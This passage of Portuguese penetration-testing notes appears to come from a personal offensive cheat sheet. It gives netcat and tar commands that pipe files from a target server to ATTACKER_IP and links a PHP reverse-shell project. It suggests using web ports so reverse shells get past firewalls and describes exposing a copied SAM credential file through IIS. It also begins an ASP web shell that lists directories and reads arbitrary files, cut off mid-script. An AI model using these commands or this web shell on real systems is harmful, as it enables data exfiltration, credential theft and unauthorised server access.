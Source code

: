 ### envio de multiplos arquivos
atacante
```
nc -lvp 1234 | tar xvf -
```
**opção 1:** escolhendo os arquivos a serem enviados:
servidor
```
tar cf - arquivo1.txt arquivo2.txt | nc ATTACKER_IP 1234
```

**opção 2:**  enviando a pasta toda
```
tar cf - minha_pasta | nc ATTACKER_IP 1234
```

**reverse shell .php**
- https://github.com/flozz/p0wny-shell/tree/master

**Firewall:**
- o firewall pode bloquear reverse shell para portas acima de 1024, neste caso é bom tentarmos realizar reverse shell em portas de serviços web (80/443)

## microsoft iis
No IIS, por algum motivo, quando eu criei o arquivo `sam_copy` ele não deixou isso visivel no servidor web, apenas quando eu coloquei a extensão .txt, ou seja, por algum motivo só ficou visivel com o nome de arquivo `sam_copy.txt`, eu tentei com extensão que não existia ex: `sam_copy.ablablue` mas n funcionou.

### asp
https://medium.com/@far00t01/asp-net-microsoft-iis-pentesting-04571fb071a4
script to directory and file disclosure:
```
# ex: http://HOST/file.asp?diretorio=C:\&arquivo=key.txt

<%
    Dim objFSO, objFolder, objSubfolder, objFile, diretorioAlvo, arquivoAlvo, diretorio, arquivo
    Dim objTextFile, fileContent

    ' Obtém os parâmetros passados pela URL (diretorio e arquivo)
    diretorio = Request.QueryString("diretorio")
    arquivo = Request.QueryString("arquivo")

    ' Se nenhum diretório for passado, define um diretório padrão
    If diretorio = "" Then
        diretorioAlvo = "C:\"
    Else
        diretorioAlvo = diretorio
    End If

    ' Se nenhum arquivo for passado, não tenta abrir o arquivo
    If arquivo = "" Then
        arquivoAlvo = ""
    Else
        arquivoAlvo = diretorioAlvo & "\" & arquivo
    End If

    ' Criar objeto do sistema de arquivos
    Set objFSO = Server.CreateObject("Scripting.FileSystemObject")

    ' Verifica se o diretório existe
    If objFSO.FolderExists(diretorioAlvo) Then
        Set objFolder = objFSO.GetFolder(diretorioAlvo)
        
        Response.Write "<h2>📁 Conteúdo em " & diretorioAlvo & ":</h2><ul>"
```